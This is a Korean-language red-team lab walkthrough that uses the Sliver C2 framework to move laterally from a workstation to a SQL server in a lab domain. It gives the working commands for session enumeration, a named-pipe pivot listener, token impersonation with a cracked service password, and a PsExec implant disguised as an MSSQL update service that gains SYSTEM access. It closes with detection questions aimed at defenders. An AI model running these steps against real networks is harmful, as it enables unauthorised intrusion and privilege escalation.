


# 5. 횡적 이동: USWKSTN01 -> SQL01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 커버로스팅을 통해 탈취한 US\SF\_MSSQL\_SVC 계정의 권한
* SQL01.us.rt.local 서버 대상의 정보 수집 이후 횡적 이동
* 피벗 리스너와 SMB 에이전트의 활용
* SQL01에서의 권한 상승

<figure><figcaption></figcaption></figure>

앞서 커버로스팅 공격을 통해 US\SF\_MSSQL\_SVC 유저의 계정 정보를 확보했다. 또한 WinRM을 통해 명령어 실행이 가능한 것으로 보아 최소 `Remote Management Users`, 최대 로컬 관리자 권한을 갖을 수 있다는 것 또한 확인했다. 해당 서비스 유저는 SQL01에 `SFMSSQLSVC/sql01.us.rt.local:1433` SPN을 갖고 있기 때문에, SQL 서버로의 횡적 이동을 시도해봐도 좋을 것 같다.

횡적 이동을 실행하기 전, 성공적인 횡적 이동을 하면 어떤 이득을 취할 수 있는지, 해당 호스트에 어떤 유저들이 세션을 구축하고 있는지 확인한다.

```
sliver (TOUGH_BREADCRUMB) > sa-regsession sql01.us.rt.local

[*] Got output:
[*] Querying registry on sql01.us.rt.local...

-----------Registry Session---------
UserSid: S-1-5-21-3171536543-709093172-2066445559-1857
Host: sql01.us.rt.local
---------End Registry Session-------
```

SID값이 나오게 되는데, 이를 블러드하운드에 넣어보면 Rahat.Kuma 라는 유저가 나온다. 해당 유저는 SuperUsers OU에 속해있고, ITAdmin 그룹에 속해있다.

<figure><figcaption></figcaption></figure>

유저를 장악한 뒤에 다시 한 번 블러드하운드를 돌려봐야겠지만, 일단은 SQL 서비스 계정에서 IT 관리자 계정까지 권한 상승을 할 수 있는 공격 경로가 보이는 것 같다.

그럼 이제 USWKSTN01에서 SQL01으로 횡적 이동을 한 다음, SQL01 호스트에서 Rahat.Kuma와 관련된 계정 정보를 획득하는 공격을 실행한다.

SQL 서버와 같이 백엔드 서버로의 횡적 이동은 몇 가지 유의해야 할 점이 있다:

* DB과 같은 백엔드 서버들은 인터넷이 차단된 망에서 운영되는 경우가 많다.
* 그렇기에 초기 침투와 같이 HTTP/S를 이용해 공격자 도메인으로 콜백하는 것은 실패할 확률이 높다.
* 따라서, SQL01로의 횡적 이동은 USWKSTN01 호스트에 Named Pipe를 이용한 Pivot (피벗) 리스너를 생성한 뒤, SQL01에서 USWKSTN01으로 콜백하는 피벗 에이전트를 이용한다.

먼저 USWKSTN01에서 피벗 리스너를 생성한다.

```
// Pivot 리스너를 위한 Interactive 
sliver (TOUGH_BREADCRUMB) > interactive

[*] Session 42ffc3a3 TOUGH_BREADCRUMB - tcp(127.0.0.1:38730)->2a06:98c0:3600::103 (uswkstn01) - windows/amd64 - Sun, 19 Jan 2025 02:08:38 UTC

sliver (TOUGH_BREADCRUMB) > use 42ffc3a3-0498-4954-91d1-c874017d8df3

// 피벗 리스너 생성 
sliver (TOUGH_BREADCRUMB) > pivots named-pipe --bind mojo.10968.11628.5896583801798593585 --allow-all

[*] Started named pipe pivot listener \\.\pipe\mojo.10968.11628.5896583801798593585 with id 4
```

피벗 리스너 생성 뒤, SF\_MSSQL\_SVC 유저의 로그온 세션을 만든 다음 피벗 에이전트를 PSEXEC를 통해 SQL01로 보내 세션을 구축한다.

```
// PSEXEC용 SF_MSSQL_SVC 유저 계정 정보를 이용한 로그온 세션 구축 
sliver (TOUGH_BREADCRUMB) > make-token -d us.rt.local -u sf_mssql_svc -p sql123

[*] Successfully impersonated us.rt.local\sf_mssql_svc. Use `rev2self` to revert to your previous token.

// 네임드파이프 에이전트 생성에 이용될 프로필 생성 
sliver (TOUGH_BREADCRUMB) > profiles new --format service -p 10.2.30.100/pipe/mojo.10968.11628.5896583801798593585 sql01-namedpipe

[*] Saved new implant profile sql01-namedpipe

// PSEXEC 실행, 세션 구축 
sliver (TOUGH_BREADCRUMB) > psexec -t 30 -p sql01-namedpipe -s MSSQL-OnlineUpdater -d "Update MSSQL service without restart" -b "C:\Program Files\Microsoft SQL Server\150\Tools\Binn" sql01.us.rt.local

[*] Sliver name for profile sql01-namedpipe: EXPLICIT_SILVER                                                                                  
[*] Uploaded service binary to \\sql01.us.rt.local\C$\program files\microsoft sql server\150\tools\binn\PROGRESS2.exe
[*] Waiting a bit for the file to be analyzed ...
[*] Successfully started service on sql01.us.rt.local (C:\Program Files\Microsoft SQL Server\150\Tools\Binn\PROGRESS2.exe)
[*] Successfully removed service MSSQL-OnlineUpdater on sql01.us.rt.local

[*] Session 566eb5b1 EXPLICIT_SILVER - tcp(127.0.0.1:51154)->2a06:98c0:3600::103->TOUGH_BREADCRUMB-> (sql01) - windows/amd64 - Sun, 19 Jan 2025 02:46:04 UTC
```

최종적으로 횡적 이동을 마치면 다음과 같은 상태가 된다.

<figure><figcaption></figcaption></figure>

PSEXEC을 이용한 횡적 이동이였기 때문에 SYSTEM 권한으로 SQL01 서버에 접근했다.

<figure><figcaption></figcaption></figure>

## 우리 회사는

* PSEXEC 스타일의 SMB 서비스 바이너리를 이용한 횡적 이동을 탐지하고 방지할 수 있는가?
* 원격으로 레지스트리를 이용한 유저 세션 정보 수집을 탐지하고 방지할 수 있는가?
* 네임드 파이프를 이용한 호스트간 네트워크 트래픽 전송 및 수상한 네임드 파이프 이름 (예. 코발트스트라이크의 MSSE...)를 블랙리스트 처리 해놨는가?


